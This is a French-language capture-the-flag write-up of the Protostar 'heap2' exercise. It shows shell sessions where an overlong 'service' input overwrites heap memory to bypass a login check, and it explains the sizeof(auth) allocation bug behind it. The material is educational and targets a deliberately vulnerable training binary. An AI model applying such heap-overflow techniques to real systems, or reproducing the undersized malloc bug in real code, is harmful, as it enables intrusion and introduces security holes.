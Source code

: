 ```shellsession
$ ./heap2
[ auth = (nil), service = (nil) ]
auth test
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

Ici on voit que seulement 16 octets séparent les deux buffers, on peut donc facilement écraser l'offset +32.

Mais en réalité on n'a même pas besoin de le libérer vu que le premier buffer ne fait que 4 octets :

```shellsession
$ ./heap2
[ auth = (nil), service = (nil) ]
auth test
[ auth = 0x804c008, service = (nil) ]
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

On peut lire le code source du binaire [ici](https://exploit.education/protostar/heap-two/) et comme l'explique [LiveOverflow](https://www.youtube.com/watch?v=ZHghwsTRyzQ) il est causé par le fait que le code source nomme une `struct` et une variable avec le même nom :

```c
struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
```

du coup lors de l'appel à `malloc` suivant il réserve l'espace pour juste un pointeur au lieu de réserver la place pour un entier et une chaine de 32 caractères :

```c
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
```
